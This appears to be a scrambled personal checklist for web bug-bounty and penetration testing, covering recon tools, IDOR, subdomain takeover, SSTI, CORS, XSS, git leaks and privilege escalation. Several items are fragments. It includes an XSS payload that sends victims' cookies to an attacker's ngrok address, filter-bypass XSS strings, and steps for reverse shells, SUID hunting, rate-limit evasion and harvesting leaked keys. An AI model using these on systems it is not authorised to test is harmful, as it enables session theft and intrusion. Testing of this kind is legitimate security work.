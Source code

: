 - [ ] use encoded versions of /../..(double url encoding and partial url encoding)
- [ ] offer unsolicited ids to the application
- [ ] look for source code (like java script or php (.js or .php))
- [ ] change request methods and try the above task
- [ ] Recon
- [ ] extract all JS files
- [ ] Directory enumeration 
- [ ] Subdomain enumeration
- [ ] Extract all urls 
- [ ] use 
- [ ] https://medusa0xf.medium.com/how-i-found-a-3000-idor-vulnerability-in-a-delivery-app-d15167b6f963?sk=c9546ff39b5c9a27201cda30fd401141
- [ ] create two accounts and test Idor + broken access control
- [ ] broken link hijacking 
- [ ] use Can-I-Takeover xyz for reference and the proof, if it’s not enough just go for taking over the subdomain
- [ ] use custom build web scrapers or already available tools or just do it manually
- [ ] Subdomain takeover
- [ ] try injecting {{7*7}} and check for internal server errors or the results 
- [ ] use ngrok to forward the request to the 
- [ ] run an http server with python
- [ ] ngrok http 80 —> this will just forward the request to http server at 
- [ ] try privesc if you get the shell
- [ ] try analysing all binaries with root permissions
- [ ] look for a payload for webshell , google sites which give ready made payoads
- [ ] use git to check for common vulnerabilities and POC
- [ ] use exploit db to check for CVEs
- [ ] python3 -m http.server 8080 (example)
- [ ] SSTI (server side template injection)
- [ ] Check for outdated services and CVEs 
- [ ] if you get a hit, lookup for a payload for rce , use reverse shell generator (google this) to get help in generating payload
- [ ] go to the folder of interest in the local machine and serve that on the 
- [ ] XSS
- [ ] try doing sudo -ls to list all the binaries that can be run with sudo without password
- [ ] try downloading and using linpeas or winpeas or pwnkit or anything from your local machine into the pwned machine
- [ ] in the above example, the new Image tag is created in the memory and is not needed to be created in the DOM to work
- [ ] example —> <script>new Image().src = “http://<ngrok’s address>?c= ‘ + document.cookie </script>
- [ ] use the xss payload in a way that it sends data to the ngrok’s web intereface so that all that data can be forwarded to us
- [ ] put the xss in and wait for someone to interact
- [ ] find / -user root -perm -u=s -ls 2>/dev/null 
- [ ] add special characters like 0a% %20 %1c %09 %00
- [ ] use hacktricks (google it) for some payloads
- [ ] use gourlex 
- [ ] use ffuf
- [ ] use subdominator
- [ ] use subfinder 
- [ ] use virustotal 
- [ ] find 404 pages and use dig to CNAME records if there is a possibility
- [ ] use google dorking
- [ ] use dirsearch
- [ ] watch the video for one technique —> 
- [ ] also try the “-recursion” flag in ffuf , it recursively fuzzes the found directories so that we can find all the directories
- [ ] use matcher (-mc flag) to add the status codes that ffuf does not originally include
- [ ] see this video to know a better methodology —> 
- [ ] imp —> 200. 201, 300-307, 400, 405, 415, 403, 401
- [ ] recon on nginx server (if there exists one)
- [ ] closely analyze the acao (access control allow origin), acam (access control allow methods), acac(access control allow credentials) headers in the reponse after adding the origin header
- [ ]  adding the origin header 
- [ ] CORS
- [ ] check if the origin as null is accepted and reflected in the response
- [ ] check if the attackers domain as the origin is reflected in the response
- [ ] use feroxbuster tool for forced browsing to look for pages that are not linked directly but still exists
- [ ] use subjs tool to find all the js files 
- [ ] use subzy tool (it works based on matching fingerprints from can-i-takeover-xyz)
- [ ] use rustbuster tool for content discovery
- [ ] use linkfinder tool to extract the discover urls from the js files that you have extracted
- [ ] use secret finder tool to discover secrets like api keys, passwords etc from the js files
- [ ] use sites and tools for getting a headstart in recon as it is alredy done there
- [ ] use chaos on github
- [ ] use  
- [ ] sometimes while bruteforcing (in possible scenarios), there is rate limiting , to bypass that , use ip rotation by scripting 
- [ ] 2FA bypass
- [ ] payloads
- [ ] %22onmouseover=%27onfocus=%27alert(1)%27%20autofocus=%27(9824)%22
- [ ] we can read the blob file (using —> git cat-file -p <blob’s hash>) to read the commits and the files and we might get the pushed keys
- [ ] 
Even if you delete your API key from the file and push a new commit, 
- [ ] '<00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/
- [ ] git recon
- [ ] check if the git folder is public by adding /.git in the root url
- [ ] create 2 accounts and compare for the requests
- [ ] use wayback machine to see the past versions of the same site.
- [ ] change the file type
- [ ] CSRF
- [ ] https://web.archive.org/web/*/
- [ ] look for software version number and configuration information by using recon
- [ ] IDOR
- [ ] check for exposed .git directories
- [ ] parameter pollution
- [ ] capture requests
- [ ] find info in public files
- [ ] response manipulation
- [ ] try to decode hashed and encrypted ids
- [ ] Information Disclosure
- [ ] paste bin
- [ ] git hub gists
- [ ] try searching for leaked ids
- [ ] use tools to automate the process (pastebin-scraper)(get the pastebin ids and then acees those files from pastebins’ site)
- [ ] use path traversal techniques to access a forbidden folder.
- [ ] to automate finding java scipt files use tools (link finder)
- [ ] try blind idors
- [ ] look for configuration files (.conf or .env or try other extensions)